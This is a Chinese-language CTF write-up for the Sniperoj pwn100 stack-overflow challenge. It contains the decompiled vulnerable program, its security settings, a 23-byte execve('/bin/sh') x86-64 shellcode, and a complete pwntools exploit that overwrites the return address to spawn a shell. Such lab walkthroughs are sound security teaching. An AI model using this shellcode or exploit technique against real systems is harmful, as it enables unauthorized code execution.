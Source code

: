 # 查看程序源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [sp+0h] [bp-10h]@1
  __int64 v5; // [sp+8h] [bp-8h]@1

  buf = 0LL;
  v5 = 0LL;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", &buf, 0LL, 0LL);
  puts("Now give me your answer : ");
  read(0, &buf, 0x40uLL);
  return 0;
}
```

 可以发现，程序中有一个栈溢出的漏洞，并且还给了对应的buf的地址。

# 检测程序的安全机制

```text
Canary                        : No
NX                            : No
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```

可以看到程序中并没有设置堆栈执行保护。所以我们可以直接布置shellcode，然后跳转执行。

# 布置shellcode

通过

```C
  __int64 buf; // [sp+0h] [bp-10h]@1
  read(0, &buf, 0x40uLL);
```

可以知道buf相对于ebp的偏移为0x10,所以其可用的shellcode空间为16+8=24。我找了到了一个长度为23的shellcode。但是其本身是有push指令的，这时候如果我们把shellcode放在最前面，在程序leave的时候，在执行这些就会被覆盖。  
详细原因：
https://www.dazhuanlan.com/2019/10/27/5db4c05c72191/  
https://hc1024.github.io/2019/10/19/sniperoj-pwn100-shellcode-x86-64/

```text
# char *const argv[]
xorl %esi, %esi
# 'h' 's' '/' '/' 'n' 'i' 'b' '/'
movq $0x68732f2f6e69622f, %rbx
# for '\x00'
pushq %rsi
pushq %rbx
pushq %rsp
# const char *filename
popq %rdi
# __NR_execve 59
pushq $59
popq %rax
# char *const envp[]
xorl %edx, %edx
syscall

shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

所以我把它放在后面，payload为

```
'b'*24+[buf_addr+32]+shellcode_x64
```

# exp

```python
from pwn import *
from LibcSearcher import *
code = ELF('./shellcode')
if args['REMOTE']:
    sh = remote(111, 111)
else:
    sh = process('./shellcode')

# 23 bytes
# https://www.exploit-db.com/exploits/36858/
shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
sh.recvuntil('[')
buf_addr = sh.recvuntil(']', drop=True)
buf_addr = int(buf_addr, 16)
payload = 'b' * 24 + p64(buf_addr + 32) + shellcode_x64
print payload
#gdb.attach(sh)
sh.sendline(payload)
sh.interactive()
```

